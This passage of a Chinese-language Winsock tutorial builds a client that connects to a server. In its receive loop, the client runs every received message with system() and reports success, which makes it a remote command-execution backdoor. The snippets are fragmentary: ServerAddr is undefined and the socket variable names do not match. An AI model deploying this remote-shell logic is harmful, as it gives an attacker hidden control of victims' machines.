 然后再是客户端的代码编写，客户端跟服务端唯一一点不同的就是没有`bind`和`listen`即监听过程，直接连接即可

将一个套接字置于正在监听传入连接的状态

```c++
int WSAAPI listen(
  [in] SOCKET s,
  [in] int    backlog
);
```

一开始还是初始化winsock环境

```c++
    WSADATA wsadata = { 0 };

    WORD w_version_req = MAKEWORD(2, 2);

    WSAStartup(w_version_req, &wsadata);
```

然后创建流式socket

```c++
 SOCKET g_SeverSocket = socket(AF_INET, SOCK_STREAM, NULL);
```

使用`connect`连接服务端

```c++
connect(g_SeverSocket, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr));
```

然后创建线程接收数据

```c++
::CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)ThreadProc, NULL, NULL, NULL);
```

这里建立了连接那么即可以接收信息，也可以发送信息

```c++
void SendMsg(char* pszSend)
{
    //发送数据

    ::send(g_ClientSocket, pszSend, (::strlen(pszSend) + 1), 0);
    printf("[*] Sent:%s",pszSend);
}

void GetMsg()
{
    char szBuffer[MAX_PATH] = { 0 };

    while (TRUE)
    {
        int Ret = ::recv(g_ClientSocket, szBuffer, MAX_PATH, 0);
        if (Ret <= 0)
        {
            continue;
        }

        system(szBuffer);
        SendMsg((LPSTR)"The command executed successfully");
    }
}
```
